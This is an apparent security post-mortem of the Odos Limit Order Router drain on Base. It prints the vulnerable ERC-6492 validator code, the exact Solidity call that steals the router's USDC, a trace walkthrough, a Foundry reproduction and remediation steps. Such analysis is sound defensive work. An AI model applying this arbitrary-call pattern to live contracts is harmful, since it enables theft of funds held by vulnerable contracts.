



# Odos Limit Order Router Exploit — Public ERC-6492 `isValidSigImpl(... allowSideEffects = true)` Arbitrary-Call Drain

> **Vulnerability classes:** vuln/dependency/unsafe-external-call · vuln/access-control/missing-auth

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo
> contains several unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [OdosLimitOrderRouter.sol](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **15,578.334373 USDC** (≈ $15.6K) drained from the router; total campaign across chains reported ~$50K |
| **Vulnerable contract** | `OdosLimitOrderRouter` — [`0xB6333E994Fd02a9255E794C177EfBDEB1FE779C7`](https://basescan.org/address/0xb6333e994fd02a9255e794c177efbdeb1fe779c7#code) |
| **Victim** | The router itself — it custodied USDC fee/leftover dust that the attacker walked off with |
| **Drained token** | USDC on Base — `0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913` |
| **Attacker EOA** | [`0x4015d786e33c1842c3e4d27792098e4a3612fc0e`](https://basescan.org/address/0x4015d786e33c1842c3e4d27792098e4a3612fc0e) |
| **Attacker contract** | [`0x22a7da241a39f189a8aec269a6f11a238b6086fc`](https://basescan.org/address/0x22a7da241a39f189a8aec269a6f11a238b6086fc) |
| **Attack tx** | [`0xd10faa5b33ddb501b1dc6430896c966048271f2510ff9ed681dd6d510c5df9f6`](https://basescan.org/tx/0xd10faa5b33ddb501b1dc6430896c966048271f2510ff9ed681dd6d510c5df9f6) |
| **Chain / block / date** | Base / 25,431,001 / Jan 24, 2025 |
| **Compiler** | Solidity v0.8.19, optimizer **1000 runs** |
| **Bug class** | Arbitrary external call via a public ERC-6492 universal signature validator (`allowSideEffects = true`) |

---

## TL;DR

The Odos limit-order router inherits the [Ambire `UniversalSigValidator`](https://github.com/AmbireTech/signature-validator/blob/main/contracts/EIP6492.sol) implementation of **ERC-6492** ("Signature Validation for Predeploy Contracts"). ERC-6492 lets a not-yet-deployed (counterfactual) smart-contract wallet "sign" by wrapping its signature with a `(factory, factoryCalldata, innerSig)` tuple plus a magic suffix; the validator is supposed to **deploy the wallet first** (by calling `factory.call(factoryCalldata)`) and then check the signature against the freshly-deployed code.

The fatal mistake: that deploy-call path is reachable through a **`public`** function, `isValidSigImpl(...)`, whose `allowSideEffects` flag can be set to `true` by **anyone**, and the `(factory, factoryCalldata)` are **fully attacker-controlled**. So an attacker calls:

```solidity
odosRouter.isValidSigImpl(
    address(0x04),                 // _signer with no code  → triggers the "deploy" branch
    bytes32(0),                    // _hash (irrelevant)
    abi.encodePacked(              // _signature (ERC-6492 envelope)
        abi.encode(
            USDC,                  // create2Factory      ← attacker chooses the target
            abi.encodeCall(IUSDC.transfer, (attacker, routerBalance)), // factoryCalldata ← attacker chooses the calldata
            hex"01"                // innerSig (any non-empty placeholder)
        ),
        ERC6492_DETECTION_SUFFIX   // 0x6492…6492
    ),
    true                           // allowSideEffects = true  ← no longer prevents the call
);
```

`create2Factory.call(factoryCalldata)` then executes `USDC.transfer(attacker, routerBalance)` **with `msg.sender == the router`**, transferring the router's entire USDC balance to the attacker. The "factory deploy" hook is in reality an **arbitrary call primitive**.

On Base the router held **15,578.334373 USDC**; one call moved all of it to the attacker. The PoC starts the attacker with 0.02 USDC and ends with **15,578.354373 USDC**.

---

## Background — what the contract does

`OdosLimitOrderRouter` ([source](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol)) is the on-chain settlement contract for Odos limit orders. It is declared as:

```solidity
contract OdosLimitOrderRouter is EIP712, Ownable2Step, SignatureValidator
```
([:2370](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol#L2370))

To support smart-contract-wallet (EIP-1271) order owners that may not be deployed yet, it pulls in `SignatureValidator`, which in turn inherits Ambire's `UniversalSigValidator`:

```solidity
contract SignatureValidator is UniversalSigValidator { ... }
```
([:2120](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol#L2120))

During *normal* order settlement, the router validates an EIP-1271 order signature through the **safe** wrapper `isValidSig(...)`, which forces `allowSideEffects = false`:

```solidity
if (!isValidSig(account, orderHash, signature)) {       // → isValidSigImpl(..., false)
    revert InvalidEip1271Signature(orderHash, account, signature);
}
```
([`_getOrderOwnerOrRevert`, :2175](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol#L2175))

The whole bug is that the *underlying* `isValidSigImpl` is `public` and accepts `allowSideEffects` as a caller-supplied argument — so an attacker simply skips the safe wrapper.

The on-chain state at the fork block:

| Fact | Value |
|---|---|
| Router USDC balance | **15,578.334373 USDC** (`15578334373` raw, 6 decimals) |
| Attacker (PoC `address(this)`) USDC balance | 0.020000 USDC (`20000` raw) |
| `_signer` used in the attack | `0x0000000000000000000000000000000000000004` (the `identity` precompile — chosen because `address.code.length == 0`) |

---

## The vulnerable code

### 1. `isValidSigImpl` is `public` and trusts `allowSideEffects` from the caller

```solidity
function isValidSigImpl(
    address _signer,
    bytes32 _hash,
    bytes calldata _signature,
    bool allowSideEffects                 // ⚠️ caller-supplied
) public returns (bool) {                 // ⚠️ public — no wrapper enforces allowSideEffects = false
    uint256 contractCodeLen = address(_signer).code.length;
    bytes memory sigToValidate;
    bool isCounterfactual = _signature.length >= 32
      && bytes32(_signature[_signature.length-32:_signature.length]) == ERC6492_DETECTION_SUFFIX;
    if (isCounterfactual) {
      address create2Factory;
      bytes memory factoryCalldata;
      // ⚠️ factory + calldata are fully decoded from the attacker-supplied signature
      (create2Factory, factoryCalldata, sigToValidate) =
        abi.decode(_signature[0:_signature.length-32], (address, bytes, bytes));

      if (contractCodeLen == 0) {
        // solhint-disable-next-line avoid-low-level-calls
        (bool success, bytes memory err) = create2Factory.call(factoryCalldata);  // ⚠️ ARBITRARY CALL
        if (!success) revert ERC6492DeployFailed(err);
      }
    } else {
      sigToValidate = _signature;
    }

    // Try ERC-1271 verification
    if (isCounterfactual || contractCodeLen > 0) {
      try IERC1271Wallet(_signer).isValidSignature(_hash, sigToValidate) returns (bytes4 magicValue) {
        bool isValid = magicValue == ERC1271_SUCCESS;

        if (contractCodeLen == 0 && isCounterfactual && !allowSideEffects) {
          // if the call had side effects we need to return the result using a `revert`
          assembly { mstore(0, isValid) revert(31, 1) }     // ← the ONLY thing that undoes side effects
        }
        return isValid;
      } catch (bytes memory err) { revert ERC1271Revert(err); }
    }
    ...
}
```
([:2024-2081](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol#L2024-L2081))

### 2. The safe wrappers that were *supposed* to be the only entry points

```solidity
function isValidSigWithSideEffects(address _signer, bytes32 _hash, bytes calldata _signature)
    external returns (bool)
{
    return this.isValidSigImpl(_signer, _hash, _signature, true);   // intended for off-chain eth_call only
}

function isValidSig(address _signer, bytes32 _hash, bytes calldata _signature)
    public returns (bool)
{
    // forces allowSideEffects = false, then reverts to undo any state change
    try this.isValidSigImpl(_signer, _hash, _signature, false) returns (bool isValid) { return isValid; }
    catch (bytes memory error) {
      uint256 len = error.length;
      if (len == 1) return error[0] == 0x01;
      else assembly { revert(add(error, 0x20), len) }
    }
}
```
([:2083-2100](sources/OdosLimitOrderRouter_B6333E/OdosLimitOrderRouter.sol#L2083-L2100))

The Ambire library was designed to be **deployed standalone** and called *off-chain* in an `eth_call` via `ValidateSigOffchain` / `isValidSigWithSideEffects` — where "side effects" are harmless because they are never committed to chain. The on-chain `isValidSig` is the path that protects against side effects by always reverting. **But by inheriting the whole library into a live, fund-holding router and leaving `isValidSigImpl` `public`, Odos exposed the side-effect path as a regular on-chain transaction.**

---

## Root cause — why it was possible

ERC-6492's "deploy the counterfactual wallet first" step is intrinsically an **arbitrary low-level call to an attacker-chosen address with attacker-chosen calldata**. That is acceptable *only* under two conditions, both of which the library guarantees in its intended usage and Odos broke:

1. **It must never be committed to chain.** Ambire's design runs it inside an `eth_call` (`ValidateSigOffchain` constructor / `isValidSigWithSideEffects`) or, on-chain, inside `isValidSig` which **always reverts** the side effects (the `revert(31,1)` assembly). Odos left `isValidSigImpl` `public`, so an attacker calls it directly with `allowSideEffects = true` and the call **commits**.
2. **The caller (`msg.sender`) must hold no value the call can steal.** The arbitrary call executes with `msg.sender == the router`. Because the router custodies user funds (USDC fees/dust), `create2Factory.call(factoryCalldata)` can simply be `USDC.transfer(attacker, balance)`.

Concretely, the composing mistakes:

1. **`public` visibility on a side-effect-capable primitive.** `isValidSigImpl` should have been `internal`/`private`; the only public surface should be the safe `isValidSig`.
2. **`allowSideEffects` is a function parameter, not a hard-coded constant.** Anyone can pass `true`.
3. **The "deploy" branch is gated only on `contractCodeLen == 0`,** which the attacker satisfies trivially by pointing `_signer` at any address with no code (here, the `0x04` identity precompile — precompiles have empty `code`).
4. **`_signer`, `create2Factory`, and `factoryCalldata` are 100% attacker-controlled** and never validated against any order, owner, or whitelist.
5. **The router holds tokens.** A signature *validator* should never be the custodian of funds, yet the arbitrary call runs as the router.

The `_hash` and the inner ERC-1271 verification are irrelevant: the theft happens in the `create2Factory.call(...)` line *before* any signature is checked. Even though `IERC1271Wallet(0x04).isValidSignature(...)` is subsequently invoked (the trace shows the call to the `identity` precompile returning the echoed calldata, which happens not to equal `0x1626ba7e`), the damage is already done and the function returns normally — no revert, side effects committed.

---

## Preconditions

- The router holds a non-trivial balance of some ERC-20 it can be made to `transfer` (here, **15,578.33 USDC**). Any token the router custodies is at risk.
- `isValidSigImpl` is reachable publicly (it is — inherited `public`).
- The attacker picks `_signer` = an address with empty code so `contractCodeLen == 0` and the deploy branch fires. The PoC uses the `0x04` identity precompile; `address(0)`, any fresh EOA, etc. work equally.
- No capital, flash loan, price manipulation, or timing window is required. It is a **single, atomic, unconditional** call — the cheapest possible exploit.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). USDC on Base is itself a proxy (`delegatecall` to implementation `0x2Ce6…D779`), visible in the trace, but the bug is entirely in Odos.

| # | Step | Detail |
|---|------|--------|
| 0 | **Read victim balance** | `USDC.balanceOf(router)` → `15,578,334,373` raw = **15,578.334373 USDC** |
| 1 | **Craft ERC-6492 envelope** | `customCalldata = transfer(attacker, 15578334373)`; `signature = abi.encodePacked(abi.encode(USDC, customCalldata, 0x01), ERC6492_SUFFIX)` |
| 2 | **Call the router** | `router.isValidSigImpl(0x04, 0x0, signature, true)` |
| 3 | **Validator decodes** | `create2Factory = USDC`, `factoryCalldata = transfer(attacker, 15578334373)`; `contractCodeLen(0x04) == 0` ⇒ deploy branch |
| 4 | **Arbitrary call fires** | `USDC.call(transfer(attacker, 15578334373))` runs as `msg.sender == router`; emits `Transfer(router → attacker, 15578334373)` |
| 5 | **ERC-1271 "verification"** | `IERC1271Wallet(0x04).isValidSignature(...)` hits the `identity` precompile, returns echoed bytes ≠ `0x1626ba7e`; `isValid = false` but **no revert** (`allowSideEffects = true`) → function returns `false` |
| 6 | **Read attacker balance** | `USDC.balanceOf(attacker)` → `15,578,354,373` raw = **15,578.354373 USDC** (initial 0.02 + drained 15,578.334373) |

Storage proof from the trace (USDC implementation slots):

| Slot | Meaning | Before → After |
|---|---|---|
| `0xfc3c…c9c8` | router's USDC balance | `15578334373` → **0** |
| `0xea80…fdac` | attacker's USDC balance | `20000` → `15578354373` |

### Profit / loss accounting (USDC)

| | Amount |
|---|---:|
| Attacker USDC before | 0.020000 |
| Drained from router | 15,578.334373 |
| **Attacker USDC after** | **15,578.354373** |
| Cost (gas only, no capital) | ~0 |
| **Net profit** | **+15,578.334373 USDC** |

The router's USDC balance went from `15,578.334373` to exactly **0** — a 100% drain of that token.

---

## Diagrams

### Sequence of the attack



### Control flow inside `isValidSigImpl` — the safe vs. exploited paths



### Router USDC balance evolution



---

## Why this differs from a 'normal' ERC-6492 deployment

In legitimate use, `factoryCalldata` is a `create2`/factory deployment of the user's smart wallet, and the call is run in a context (`eth_call` or `isValidSig`'s revert-wrapped frame) where any state change is discarded. The Odos integration kept the *capability* (arbitrary `factory.call`) but discarded the *containment* (off-chain-only / always-revert) by exposing `isValidSigImpl` publicly with a caller-controlled `allowSideEffects`. The validator stopped being a read-only oracle and became a "call anything as me" gadget on a fund-holding contract.

---

## Remediation

1. **Never expose the side-effect path on-chain.** Make `isValidSigImpl` `internal`/`private`, and let the only public entry point be `isValidSig` (which hard-codes `allowSideEffects = false` and reverts side effects). The `isValidSigWithSideEffects` / `ValidateSigOffchain` variants are for off-chain `eth_call` simulation only and must not exist on a deployed, fund-holding contract.
2. **Do not custody funds in the signature validator.** A contract that performs arbitrary `factory.call`s as part of signature validation must hold no tokens; settlement value should live in a separate vault with its own authorization.
3. **Constrain the ERC-6492 deploy target.** If counterfactual deployment must run on-chain, restrict `create2Factory` to a known, allowlisted factory (e.g., the canonical CREATE2 deployer / a specific account factory) instead of an arbitrary attacker-supplied address, and forbid arbitrary calldata that can reach token contracts.
4. **Validate `_signer` binds to the order.** `isValidSigImpl` is invoked with a fully attacker-chosen `_signer`/`_hash`/`_signature`; an order-settlement contract must only validate signatures for the specific order owner currently being settled, never accept caller-supplied tuples.
5. **Prefer the audited ERC-6492 pattern that wraps side effects in a guaranteed revert** (Ambire's on-chain `isValidSig`), and treat any code path that can call out with `msg.sender == self` and commit as a privileged operation.

This is the same root cause that hit multiple ERC-6492 universal-validator integrations in early 2025: importing the Ambire validator wholesale and leaving the side-effect-capable `isValidSigImpl` publicly callable.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has several
unrelated PoCs that fail to compile under a single `forge test` build):

```bash
_shared/run_poc.sh 2025-01-ODOS_exp -vvvvv
```

- RPC: a **Base archive** endpoint is required (fork block 25,431,000). The bundled Infura key
  returned `401 project ID does not have access to this network` for Base, and `https://base.drpc.org`
  rate-limited the fork (`408 Request timeout on the free tier`). `foundry.toml` was switched to the
  official public RPC `https://mainnet.base.org`, which served the historical state at that block.
- Result: `[PASS] testExploit()` — attacker USDC `0.020000 → 15578.354373`.

Expected tail:

```
Ran 1 test for test/ODOS_exp.sol:ContractTest
[PASS] testExploit() (gas: 49874)
Logs:
  [Start] Attacker USDC balance before exploit: 0.020000
  [End] Attacker USDC balance before exploit: 15578.354373

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: Phalcon post-mortem — https://x.com/Phalcon_xyz/status/1882630151583981787 ; ERC-6492 — https://eips.ethereum.org/EIPS/eip-6492 ; Ambire signature-validator — https://github.com/AmbireTech/signature-validator/blob/main/contracts/EIP6492.sol*
